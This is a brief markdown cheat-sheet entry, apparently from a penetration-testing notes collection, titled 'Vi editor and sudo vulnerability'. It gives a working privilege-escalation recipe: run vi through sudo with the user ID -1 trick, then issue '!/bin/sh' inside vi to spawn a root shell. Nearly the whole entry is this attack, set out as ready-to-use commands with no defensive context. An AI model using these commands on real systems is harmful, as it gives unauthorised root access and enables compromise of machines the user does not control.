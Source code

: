 ```yaml
---
title: Vi 👮
tags:
  - Tool
---
```

## Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`